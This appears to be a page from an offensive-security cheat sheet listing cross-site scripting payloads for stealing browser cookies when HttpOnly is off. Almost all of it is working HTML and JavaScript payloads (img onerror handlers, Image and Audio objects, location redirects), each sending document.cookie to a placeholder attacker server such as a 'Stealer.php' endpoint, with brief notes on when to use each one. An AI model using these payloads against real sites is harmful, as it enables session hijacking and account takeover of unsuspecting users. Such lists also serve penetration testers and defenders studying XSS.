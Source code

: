 ### <mark style="color:purple;">Key Condition -></mark> <mark style="color:orange;">**`HttpOnly`**</mark> <mark style="color:purple;">needs to be set to</mark> <mark style="color:orange;">**`false`**</mark>&#x20;

* <mark style="color:purple;">Use when injecting into an image tag where an</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**error event triggers(**</mark><mark style="color:orange;">**`HTTP response error or broken link`**</mark><mark style="color:purple;">**):**</mark>

{% code overflow="wrap" %}
```html
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```
{% endcode %}

* <mark style="color:purple;">Use when you can inject an image and trigger a redirect via the</mark> <mark style="color:orange;">**`onerror`**</mark> <mark style="color:purple;">event(</mark><mark style="color:orange;">**`load error`**</mark><mark style="color:purple;">):</mark>

{% code overflow="wrap" %}
```html
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
```
{% endcode %}

* <mark style="color:purple;">Use in situations where you can send cookies via an image request (</mark><mark style="color:orange;">**`URL encoding`**</mark><mark style="color:purple;">):</mark>

{% code overflow="wrap" %}
```html
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
```
{% endcode %}

* <mark style="color:purple;">Use when</mark>  <mark style="color:purple;"></mark><mark style="color:purple;">you need to send cookies using an</mark> <mark style="color:orange;">**`audio object`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
```
{% endcode %}

* <mark style="color:purple;">Use when you</mark> <mark style="color:orange;">**`want to redirect`**</mark> <mark style="color:purple;">the user to a server with the cookies attached:</mark>

{% code overflow="wrap" %}
```html
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```
{% endcode %}

* <mark style="color:purple;">Similar to the previous one; use when you</mark>  <mark style="color:orange;">**`want to redirect`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```
{% endcode %}
